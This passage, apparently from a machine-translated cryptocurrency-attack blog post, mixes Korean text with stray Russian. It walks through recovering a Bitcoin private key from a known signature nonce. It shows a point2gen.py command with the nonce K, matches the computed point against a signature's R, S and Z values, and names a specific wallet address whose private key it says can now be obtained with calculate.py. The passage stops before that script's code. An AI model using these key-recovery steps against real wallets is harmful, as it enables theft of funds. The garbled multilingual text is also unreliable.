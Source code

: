 
<p>이제 다음을 지정하여 스크립트를 실행해 보겠습니다&nbsp;<code>секретный ключ "K" (NONCE)</code>.</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-147-1024x98.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1257"/></figure>



<p><code>(0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386 , 0x3f43332421ee70c0e0ccab01f0b916fdf087f1df6cd2227f6d8d7212a3e6f806)</code></p>



<p><code>EC (secp256k1)&nbsp;</code>시그니처 값으로&nbsp;포인트 좌표 확인<code>R</code></p>



<pre class="wp-block-code"><code>R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>R          =    0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
point2gen  =   (0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386 , 0x3f43332421ee70c0e0ccab01f0b916fdf087f1df6cd2227f6d8d7212a3e6f806)
</code></pre>



<p><code>ВСЕ ВЕРНО!</code></p>



<p><code>K = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca</code></p>



<p>이제 비밀 키를 알고 있으므로 비트코인 ​​지갑에 대한 개인 키를 얻을 수 있습니다.<code>18hhdfynnojmiMmBMsrkXNFWketq4mmDHB</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>Python</em>&nbsp;스크립트를 사용합시다&nbsp;&nbsp;.&nbsp;&nbsp;<code>calculate.py</code>&nbsp;&gt; &gt; &gt; 개인 키 가져오기</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>코드를 열고 서명의 모든 값을 추가합시다<code><strong>K, R, S, Z</strong></code></p>
